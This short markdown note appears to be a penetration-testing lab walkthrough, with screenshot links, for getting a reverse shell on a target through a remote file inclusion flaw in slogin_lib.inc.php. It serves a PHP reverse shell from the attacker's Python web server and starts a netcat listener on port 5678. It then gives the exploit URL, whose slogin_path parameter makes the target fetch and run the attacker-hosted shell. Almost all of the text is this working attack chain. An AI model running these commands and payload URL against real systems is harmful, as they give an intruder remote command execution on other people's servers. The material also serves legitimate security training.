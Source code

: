 ## Serve the reverse-shell.php file
Stop the apache2 service if necessary
`sudo systemctl stop apache2`

Navigate to the directory where reverse-shell.php is, then start a python server on port 80
`sudo python -m SimpleHTTPServer 80`
![bc6190236deda6266c4beceac888daec.png](../../../_resources/6aa045518edb451b9eddf9a6bfeefc2f.png)

## Start a netcat listener on port 5678
`sudo nc -lvnp 5678`
![ca964cc68bbc1929ccc5d97616c7e71d.png](../../../_resources/1689bce41e074acbaf1ec39414dbb602.png)

## Browse to:
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?)

![d18e4fac5b75d50b737e615a5bbed2db.png](../../../_resources/0b0ca45d6aa44d35935ad3114ef10901.png)
